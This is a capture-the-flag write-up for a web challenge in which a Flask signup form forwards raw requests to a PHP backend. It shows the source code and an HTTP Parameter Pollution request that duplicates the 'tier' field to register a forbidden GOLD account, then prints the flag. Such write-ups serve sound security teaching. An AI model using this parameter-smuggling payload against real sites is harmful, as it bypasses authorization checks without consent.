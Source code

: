 # Under-Construction
> We were building a web app but the new CEO wants it remade in php.

## About the Challenge
We got 2 websites, the first one was created using `Flask` and the second one was created using PHP. And I got the source code too (You can download the source code [here](22790c2f38bd6adde75753641011c223db7e2c0ec718df6e883976ed9c518ca0a86ef67b7e153fd07a9fa734f6a5350028ca266e3bf646f1096d2c4d536ff45a.zip))

In the first website, there are some functionality that we can test such as register an account, login, and also logout feature. When creating an account, users can select their membership tier (BLUE, RED, GREEN, and GOLD)

![preview_server_1](images/preview_server_1.png)

And in the second website, there is only 1 feature (Login user).

![preview_server_2](images/preview_server_2.png)

In the `authorized_routes.py` file, there is a function to register as a user

```python
@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))

    if(len(username) > 15 or len(username) < 4):
        flash('Username length must be between 4 and 15')
        return redirect(url_for('authorized.signup'))

    user = models.User.query.filter_by(username=username).first()

    if user:
        flash('Username address already exists')
        return redirect(url_for('authorized.signup'))

    new_user = models.User(username=username, 
        password=generate_password_hash(password, method='sha256'), tier=tier.name)

    db.session.add(new_user)
    db.session.commit()

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

We can register an account but there is some restriction (We can't register an account using GOLD tier). And the body request will be sent to `account_migrator.php` in port 1336. Now we need to check `account_migrator.php` file

```php
function insertUser($username, $password, $tier)
{
	$hash = password_hash($password, PASSWORD_BCRYPT);
	if($hash === false) {
		http_response_code(500);
		exit();
	}
	$host = getenv("DB_HOST");
	$dbname = getenv("MYSQL_DATABASE");
	$charset = "utf8";
	$port = "3306";

	$sql_username = "forge";
	$sql_password = getenv("MYSQL_PASSWORD");
	try {
		$pdo = new PDO(
			dsn: "mysql:host=$host;dbname=$dbname;charset=$charset;port=$port",
			username: $sql_username,
			password: $sql_password,
		);

		$pdo->exec("CREATE TABLE IF NOT EXISTS Users (username varchar(15) NOT NULL, password_hash varchar(60) NOT NULL, tier varchar(10) NOT NULL, PRIMARY KEY (username));");
		$stmt = $pdo->prepare("INSERT INTO Users Values(?,?,?);");
		$stmt->execute([$username, $hash, $tier]);
		echo "User inserted";
	} catch (PDOException $e) {
		throw new PDOException(
			message: $e->getMessage(),
			code: (int) $e->getCode()
		);
	}
}
```

This function will inserting user information into `Users` table. And inside the `index.php` file, we need to use a gold tier user in order to obtain the flag

```php
if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }
```

## How to Solve?
To create an account with GOLD tier, we need to use `HTTP Parameter Pollution` technique. In Flask, the framework will read first parameter while in PHP the program will read the second parameter. Here is the example of HTTP request:

```
POST /signup
Host: under-construction-web.2023.ctfcompetition.com
...

username=owkwokwok&password=wokwokwokw&tier=blue&tier=gold
```

Now, we need to login to the second website to obtain the flag

![flag](images/flag.png)

```
CTF{ff79e2741f21abd77dc48f17bab64c3d}
```